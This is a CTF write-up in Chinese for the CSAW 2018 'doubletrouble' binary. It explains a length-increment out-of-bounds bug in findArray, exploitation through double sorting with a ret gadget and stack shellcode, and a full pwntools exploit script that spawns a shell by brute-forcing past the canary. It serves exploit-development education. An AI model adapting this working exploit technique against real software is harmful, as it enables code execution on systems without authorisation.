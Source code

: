 # 4.1 Csaw 2018 doubletrouble Pwn 200 (The Floating)


首先查看程序整体情况

![image](images/5ndeyHKcLKZJUeDvYwhfTgpswDqH2S_vrC4_dU0eHT0.png)

可以看到程序首先输出了一个地址，然后让我们输入一个数字，接着把输入的数字转换成了`double`类型。在后续的处理中进行了求和，获取最大值，最小值的计算，并且使用某种方式选定了一个数字输出。最后对这些数字进行排序。在安全措施方面，程序开启了`canary`，但是`segments`为`RWX` 。

可以首先确定的是第一行输出的是栈上的地址，使用`gdb`进行调试

```cpp
gef➤  r
Starting program: /home/pwn/Desktop/nightmare/modules/11-index/csaw18_doubletrouble/doubletrouble 
0xbfffed18
How long: ^C
...
...
gef➤  vmmap 
Start      End        Offset     Perm Path
0x08048000 0x0804b000 0x00000000 r-x /home/pwn/Desktop/nightmare/modules/11-index/csaw18_doubletrouble/doubletrouble
0x0804b000 0x0804c000 0x00002000 r-x /home/pwn/Desktop/nightmare/modules/11-index/csaw18_doubletrouble/doubletrouble
0x0804c000 0x0804d000 0x00003000 rwx /home/pwn/Desktop/nightmare/modules/11-index/csaw18_doubletrouble/doubletrouble
0x0804d000 0x0806e000 0x00000000 rwx [heap]
0xb7e07000 0xb7e08000 0x00000000 rwx 
0xb7e08000 0xb7fb8000 0x00000000 r-x /lib/i386-linux-gnu/libc-2.23.so
0xb7fb8000 0xb7fb9000 0x001b0000 --- /lib/i386-linux-gnu/libc-2.23.so
0xb7fb9000 0xb7fbb000 0x001b0000 r-x /lib/i386-linux-gnu/libc-2.23.so
0xb7fbb000 0xb7fbc000 0x001b2000 rwx /lib/i386-linux-gnu/libc-2.23.so
0xb7fbc000 0xb7fbf000 0x00000000 rwx 
0xb7fd5000 0xb7fd6000 0x00000000 rwx 
0xb7fd6000 0xb7fd9000 0x00000000 r-- [vvar]
0xb7fd9000 0xb7fdb000 0x00000000 r-x [vdso]
0xb7fdb000 0xb7ffe000 0x00000000 r-x /lib/i386-linux-gnu/ld-2.23.so
0xb7ffe000 0xb7fff000 0x00022000 r-x /lib/i386-linux-gnu/ld-2.23.so
0xb7fff000 0xb8000000 0x00023000 rwx /lib/i386-linux-gnu/ld-2.23.so
0xbffdf000 0xc0000000 0x00000000 rwx [stack]

```
地址`0xbfffed18`在`0xbffdf000 0xc0000000` 之间，可以确定为栈地址泄露。



下面我们使用`IDA`来分析程序，首先看`game`函数

```cpp
int game()
{
  int v0; // esi
  long double v1; // fst7
  long double v2; // fst7
  long double v3; // fst7
  int v4; // eax
  int v6; // [esp+Ch] [ebp-21Ch] BYREF
  int v7; // [esp+10h] [ebp-218h]
  char *s; // [esp+14h] [ebp-214h]
  double v9[64]; // [esp+18h] [ebp-210h] BYREF
  unsigned int v10; // [esp+21Ch] [ebp-Ch]

  v10 = __readgsdword(0x14u);
  printf("%p\n", v9);
  printf("How long: ");
  __isoc99_scanf("%d", &v6);
  getchar();
  if ( v6 > 64 )
  {
    printf("Flag: hahahano. But system is at %d", &system);
    exit(1);
  }
  v7 = 0;
  while ( v7 < v6 )
  {
    s = (char *)malloc(0x64u);
    printf("Give me: ");
    fgets(s, 100, stdin);
    v0 = v7++;
    v9[v0] = atof(s);
  }
  printArray(&v6, v9);
  v1 = sumArray(&v6, v9);
  printf("Sum: %f\n", (double)v1);
  v2 = maxArray(&v6, v9);
  printf("Max: %f\n", (double)v2);
  v3 = minArray(&v6, v9);
  printf("Min: %f\n", (double)v3);
  v4 = findArray(&v6, (int)v9, -100.0, -10.0);
  printf("My favorite number you entered is: %f\n", v9[v4]);
  sortArray(&v6, v9);
  puts("Sorted Array:");
  return printArray(&v6, v9);
}
```
首先输出泄露的地址`v9`，然后让我们输入一个值`v6`，判断是否大于64，如果大于64则退出（因为`v9`只能容纳64个`double`类型）。接着进入循环，输入的字符串不长于`100`，转换成`double`类型并保存到堆上。

接下来的一些函数，就是字面意思`printArray`输出数组信息，`sumArray` 对数组求和，`maxArray` 获取数组的最大值，`minArray`获取数组的最小值。接下来重点关注一些`findArray`函数：

```cpp
int __cdecl findArray(int *a1, int a2, double a3, double a4)
{
  int v5; // [esp+1Ch] [ebp-4h]

  v5 = *a1;
  while ( *a1 < 2 * v5 )
  {
    if ( *(double *)(8 * (*a1 - v5) + a2) > (long double)a3 && a4 > (long double)*(double *)(8 * (*a1 - v5) + a2) )
      return *a1 - v5;
    ++*a1;
  }
  *a1 = v5;
  return 0;
}
```
这个函数中`a1`是一开始输入的数组的长度，当输入的值在`-10`到`-100`之间的时候，函数就会返回，这个数字就是“最喜欢”的值。而不在这个范围内的时候，则会`++*a1` ，这会修改我们一开始所输入的值(`a1` 一开始的时候最大为64，如果当我们输入的值不在范围内，`a1`会递增），造成数组的越界。

![image](images/_V9nfZe9YJF70BuZ9BqvNswkAeKnoYQj_Rp_32Te4pc.png)

可以从上图中看到，我们开始输入的个数为2，但是当我们输入了-23（在-10到-100之间）之后，接下来调用`sortArray`函数时，传入的个数变为了3。

那么我们得到了一个溢出的bug，先来看看输入点到`eip`之间的距离是多少：

首先得知输入点的地址是`0xbfffed18` ,数组的长度位64，占用字节为512字节

![image](images/6htrOefdvYR56-WdoOwu6lKdLkeRL8KvhawZJWcL2_A.png)

`eip`地址是`0xbfffef2c` ，查看栈中数据分布：

![image](images/-Tv8EVjb71ak2f172kUHLuBIGYLHXTl9pGB90vcVYpw.png)

由上图可以看到，输入点后24个字节即为`eip`的地址，那么数组只要溢出3位，`double`类型的高4位即可覆盖`eip`的地址。

接下来就是如何来构建我们的利用程序了。我们的思路是这样的，数组溢出4位(即32字节)，刚好可以覆盖掉`eip`后面两个字节。后面两个字节刚好是一个`double`类型。`double`类型的最低四个有效位保存我们`exp`的地址，`eip`则覆盖为`ret`指令的地址。`ret`指令的作用是直接执行下一条指令，也就是说`ret`之后则会跳转到我们的`exp`指令的地址。

我们还需要注意的是默认的`eip`地址为`0x8049841`，把它跟前一个字节`0xbfffef38`组合起来就是`0x08049841bfffef38`，这个数转换成`double`类型后是一个比较大的数值。所以在`eip`指令后面的第二个字节，开头要大于`0x080` ，这样`eip`后两个字节组合成`double`类型后才能比前两个字节组合成的`double`数据要大，`sortArray`函数才能把它们排在`eip` 地址的后面。

这里的问题就是，`canary`的值是随机的，如果说`canary`值开头大于`0x080`，那么经过`sortArray`函数之后，它就会排到`eip`后面去了，这个时候程序检测到`canary` 被修改了利用就会失败，所以这里我们需要多跑几次利用程序，当`canary`的值合适了就可以成功利用。



首先我们在程序里找到一个`ret`指令的地址，然后调用`system()`函数传入`sh`来执行命令

```python
ret        0x080498A4
sh         0x804A12D
system()    0x0804BFF0
```
接下来开始构建`exp` :

* 第一步

把下面的指令放在输入点的最前面，从上一节中知道，要想`double`类型最小，最开始的字节为`0xf` 

```python
push 0x804A12D; jmp $+3
call dword ptr [0x804BFF0]
```
* 第二步

填充输入点，这里填充的数据要大于前面指令转换成`double`类型后的值

* 第三步

把`eip`的地址覆盖成`ret`指令的地址，并在`eip` 地址后面跟`exp`（第一步的指令）的地址，也就是输入点的地址。

下面是代码：

```python
#!/usr/bin/env python
from pwn import *
import struct


def loop():
    target = process('./doubletrouble')

    target.recvuntil('0x')
    stack = target.recv(8)

    stack = int(stack, 16)
    log.info("stack 0x%x", stack)

    target.sendlineafter("long: ", str(64))

    pad = "%.20g" % struct.unpack("<d", p64(0xf8ffffffffffffff))[0]

    ret = 0x080498A400000000
    jmp2exp = 0x0805000000000000 + stack    # addr of shellcode, 要比ret的值大

    sh1 = asm("push 0x804A12D; jmp $+3").ljust(8, '\xfe')       # 变成负数，但是值比pad的小
    sh2 = asm("call dword ptr [0x0804BFF0]").ljust(8, '\xfc')   # 变成负数，值比sh1稍微大一点，但是比pad小

    target.sendline("%.20g" % struct.unpack("<d", sh1)[0])
    target.sendline("%.20g" % struct.unpack("<d", sh2)[0])

    for _ in range(0, 2):
        target.sendline(pad)

    # 此时数组已经越界4个位置了

    target.sendline(str(-50))   # 触发bug

    target.sendline("%.20g" % struct.unpack("<d", p64(ret))[0])
    target.sendline("%.20g" % struct.unpack("<d", p64(jmp2exp))[0])

    # 补全数组剩余的空间
    for _ in range(0, 64-7):
        target.sendline(pad)

    target.interactive()


if __name__ == '__main__':
    for _ in range(0, 1000):
        loop()
```
![image](images/n0ZRqOB353s51aFBMT8DcDrLIW7sCDdtkIc7j5GyGoY.gif)

参考文档

[https://ctftime.org/writeup/11213](https://ctftime.org/writeup/11213)